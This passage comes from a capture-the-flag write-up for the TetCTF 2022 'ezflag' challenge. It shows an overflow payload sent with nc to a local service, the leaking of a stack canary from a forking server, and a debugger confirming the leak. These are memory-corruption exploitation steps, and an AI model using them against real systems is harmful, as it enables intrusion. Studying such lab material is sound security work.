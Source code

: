 
If we send a large amount of data, we get a stack smashing detected message so it appears that we
can trigger a buffer overflow. Next, we need to determine if we can use the info leak to leak the
stack canary.

```console
$ printf 'admin\nAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n' | nc localhost 4444 | xxd
...
Connection accepted from 127.0.0.1:38694
*** stack smashing detected ***: terminated
```

If we try to send the smallest input possible that triggers the memory leak, we can see that there
is a canary-looking value at offset `0x8` and `0x68` (`0x9a5b80ff18293100`). This value should not
change between requests since the server forks and retains the parent's memory layout and contents.

```console
$ printf '\n\n' | nc localhost 4444 | xxd -g 8 -e
00000000: 3630373833000a4e 9a5b80ff18293100  N..38706.1)...[.
00000010: 00007ffc45b911a0 0000000000009732  ...E....2.......
00000020: 0000000000000003 00007ffc45b911a0  ...........E....
00000030: 00007ffc45b9118c 0000000000496088  ...E.....`I.....
00000040: 00000000000000bb 000000000044c688  ..........D.....
00000050: 0000003000000020 00007ffc45b91180   ...0......E....
00000060: 00007ffc45b910c0 9a5b80ff18293100  ...E.....1)...[.
00000070: 0000000000000000 0000000000000000  ................
00000080: 0000000002329848 0000000000009732  H.2.....2.......
00000090: 0000000000499c24 00007ffc45b90ff0  $.I........E....
000000a0: 00000000004c2b80 000000000000000a  .+L.............
000000b0: 00000000004c1320 0000000000496072   .L.....r`I.....
000000c0: 00000000004c2f40 00000000004c1018  @/L.......L.....
000000d0: 0000000000000000 0000000000416d03  .........mA.....
000000e0: 0000000000000010 00000000004c1320  ........ .L.....
000000f0: 0000000000009732 0000000000000000  2...............
```

The vulnerable code and stack smashing check appears in this function:

![Vulnerable function]({{ site.url }}{{ site.baseurl }}/assets/images/tetctf-2022/ezflag-1.png){: .align-center}

If we do a quick check in the debugger, we can confirm that the value is indeed the stack canary.

```console
Thread 2.1 "auth" hit Breakpoint 1, 0x0000000000401f85 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
...
$rsi   : 0x9a5b80ff18293100
...
$eflags: [carry PARITY adjust ZERO sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0063 $gs: 0x0000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffc45b91010│+0x0000: 0x0000000000000001	 ← $rsp
0x00007ffc45b91018│+0x0008: 0x000003e800002190
0x00007ffc45b91020│+0x0010: 0x0000000000000000	 ← $rdx
0x00007ffc45b91028│+0x0018: 0x0000000000008801
0x00007ffc45b91030│+0x0020: 0x0000000000000000
0x00007ffc45b91038│+0x0028: 0x9a5b80ff18293100
0x00007ffc45b91040│+0x0030: 0x0000000000000000
0x00007ffc45b91048│+0x0038: 0x000000000040200d  →   mov edx, 0x100
───────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401f7c                  je     0x401f98
     0x401f7e                  xor    eax, eax
```
